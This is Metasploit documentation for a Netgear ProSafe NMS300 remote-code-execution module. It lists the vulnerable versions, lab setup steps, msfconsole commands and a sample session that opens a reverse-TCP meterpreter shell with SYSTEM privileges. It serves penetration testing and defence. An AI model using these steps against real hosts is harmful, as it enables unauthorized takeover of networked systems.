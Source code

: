 ## Vulnerable Application

Netgear's ProSafe NMS300 is a network management utility that runs on Windows systems.
The application has multiple vulnerabilities that can allow an unauthenticated remote
attacker to execute code as SYSTEM user. Vulnerabilities include authentication bypass,
SQL injection, arbitrary file upload, and privilege escalation across various versions.
This module is able to spawn a meterpreter session by chaining together two specific
vulnerabilities inside the FileUploadController and MyHandlerInterceptor classes.
This module has been tested with versions 1.5.0.2, 1.4.0.17, 1.1.0.13, 1.7.0.12, and 1.7.0.1.

## Testing
For installing the vulnerable version follow the steps below,
1. Download the [installer](https://www.netgear.com/support/product/nms300#download) for versions below **v1.7.0.22**.
2. Follow installation steps.

After these steps the ProSAFE NMS web panel will be exposed on the `http://localhost:8080/` address.

## Verification Steps

1. msfconsole
2. Do: `use exploit/windows/http/netgear_nms_rce`
3. Do: `set RHOST [IP]`
4. Do: `set RPORT [PORT]`
5. Do: `exploit`

## Options

## Scenarios

```
msf6 > use exploit/windows/http/netgear_nms_rce
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/netgear_nms_rce) > set rhosts 192.168.56.104
rhosts => 192.168.56.104
msf6 exploit(windows/http/netgear_nms_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(windows/http/netgear_nms_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] 192.168.56.104:8080 - Uploading payload...
[+] 192.168.56.104:8080 - Payload uploaded successfully
[*] 192.168.56.104:8080 - Executing payload...
[*] Sending stage (175686 bytes) to 192.168.56.104
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.104:50133) at 2023-08-02 22:40:21 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >

```
